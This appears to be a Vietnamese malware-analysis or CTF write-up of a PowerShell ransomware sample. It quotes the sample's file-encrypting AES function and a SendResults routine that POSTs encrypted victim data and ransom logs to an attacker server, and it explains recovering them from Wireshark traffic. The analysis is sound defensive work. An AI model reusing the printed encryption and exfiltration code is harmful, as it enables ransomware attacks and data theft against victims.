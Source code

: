 ```
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
```
- Hàm này là hàm mã hoá theo tiêu chuẩn AES sử dụng key đầu vào là 1 chuỗi được mã hoá sha256 mục đích để đảm bảo độ dài
- IV có thể được lấy từ 16 byte đầu tiên của dữ liệu đầu ra
```
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
- Mình sẽ lấy thằng `"> $cVl > $OgE > $zVSza > $7VEq"` ra trước để tiện cho việc xử lý dữ liệu sau này.
- Chuỗi này được lưu trong biến `$2YngY`, biến `$2YngY` được sử dụng trong hàm `R64Encoder` đã nói ở trên và gửi yêu cầu POST lên máy chủ với endpoint là /data
- Dựa vào luồng stream 0 của wireshark để trích xuất nó ra
- ![âmmamam](image/8.png)
- ![mâmma](image/9.png)
